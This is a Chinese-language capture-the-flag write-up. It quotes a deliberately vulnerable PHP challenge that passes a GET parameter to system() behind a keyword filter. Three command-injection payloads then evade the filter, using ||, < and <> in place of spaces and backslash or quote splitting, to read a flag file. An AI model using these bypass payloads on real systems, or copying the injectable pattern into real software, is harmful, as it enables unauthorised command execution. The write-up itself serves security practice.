



```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

$

*

以及无回显


### 第一种

利用<绕过空格

利用\绕过字母过滤

```
?c=ls||
```



```
?c=tac<fl\ag.php||
```




### 第二种

<>绕过空格

```
?c=tac<>fl\ag.php||
```




### 第三种

利用''绕过字母过滤

```
?c=tac<>fl''ag.php||
```


